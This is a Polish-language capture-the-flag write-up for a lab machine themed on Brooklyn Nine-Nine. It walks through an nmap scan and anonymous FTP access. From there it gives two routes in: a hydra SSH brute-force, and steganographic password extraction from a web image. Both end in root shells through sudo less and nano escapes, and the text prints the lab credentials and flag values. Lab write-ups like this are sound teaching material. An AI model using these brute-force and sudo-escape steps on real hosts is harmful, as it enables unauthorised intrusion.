


# Brooklyn99 CTF
IP=10.10.118.60

## Rekonesans
Przeprowadzamy wstępny skan za pomocą narzędzia nmap:

```
sudo nmap -sV -sC 10.10.118.60
```

Otrzymujemy następujące wyniki:

```
Starting Nmap 7.92 ( https://nmap.org ) at 2024-07-13 05:54 EDT
Nmap scan report for 10.10.118.60
Host is up (0.075s latency).
Not shown: 997 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:10.9.231.66
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 2
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_-rw-r--r--    1 0        0             119 May 17  2020 note_to_jake.txt
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 16:7f:2f:fe:0f:ba:98:77:7d:6d:3e:b6:25:72:c6:a3 (RSA)
|   256 2e:3b:61:59:4b:c4:29:b5:e8:58:39:6f:6f:e9:9b:ee (ECDSA)
|_  256 ab:16:2e:79:20:3c:9b:0a:01:9c:8c:44:26:01:58:04 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 13.80 seconds
```

Zostały wykryte trzy porty, port 21 i port 80 są najciekawsze ze względu na potencjalne zagrożenia bezpieczeństwa.

## Skanowanie (pierwsza możliwa droga do zdobycia flag)

### Port 21
Rozpoczynamy od sprawdzenia portu 21. Ze skanu wynika, ze logowanie Anonymous jest dozwolone. Logujemy się do serwisu i pobieramy znalezioną tam notatkę:

```
ftp 10.10.118.60
```

```
anonymous:anonymous
```


## Eksploitacja

Z notatki wynika, że hasło użytkownika Jake jest słabe. Spróbujmy to wykorzystać przeprowadzając atak brute-force na serwis SSH za pomocą hydry: 

```
hydra -l jake -P /usr/share/wordlists/rockyou.txt ssh://10.10.118.60
```


Następnie logujemy się do serwisu ssh z pomocą poniższych danych do logowania:

```
ssh jake@10.10.118.60
```

```
jake:987654321
```


W katalogu domowym użytkownika holt znajdujemy pierwszą flagę:


```
ee11cbb19052e40b07aac0ca060c23ee
```

## Zwiększenie poziomu uprawnień

Widzimy, że użytkownik jake może wykonać komendę less: 



Wykorzystujemy [exploita](https://gtfobins.github.io/gtfobins/less/), aby zdobyć uprawnienia root'a:



```
sudo less /etc/profile
!/bin/sh
```

W pliku root.txt znajdujemy drugą flagę:


```
63a9f0ea7bb98050796b649e85481845
```

## Skanowanie (druga możliwa droga do zdobycia flag)

### Port 80
Rozpoczynamy od sprawdzenia portu 80. Na stronie jest umieszczone zdjęcie nawiązujące do tytułu tego ctf'a:


W źródle strony znajdujemy podpowiedź:


## Eksploitacja

Pobieramy to zdjęcie i łamiemy hasło za pomocą narzędzia stegcracker:

```
stegcracker brooklyn99.jpg
```


Używamy hasła do wyciągnięcia ukrytych imformacji z pobranego pliku:

```
steghide extract -sf brooklyn99.jpg
```


Logujemy się do systemu za pomocą ssh:

```
ssh holt@10.10.118.60
```

```
holt:fluffydog12@ninenine
```


W katalogu domowym użytkownika holt znajdujemy pierwszą flagę:


```
ee11cbb19052e40b07aac0ca060c23ee
```

## Zwiększenie poziomu uprawnień

Widzimy, że użytkownik holt może wykonać komendę nano: 


Wykorzystujemy [exploita](https://gtfobins.github.io/gtfobins/nano/), aby zdobyć uprawnienia root'a:


Zgodnie z instrukcją wpisujemy "sudo nano", następnie klikamy CTRL + R oraz CTRL + X. Po wpisaniu "reset; sh 1>&0 2>&0" i zatwierdzeniu enter'em zdobywamy uprawnienia root:


W pliku root.txt znajdujemy drugą flagę:

```
63a9f0ea7bb98050796b649e85481845
```

Do zobaczenia na kolejnych CTF-ach!


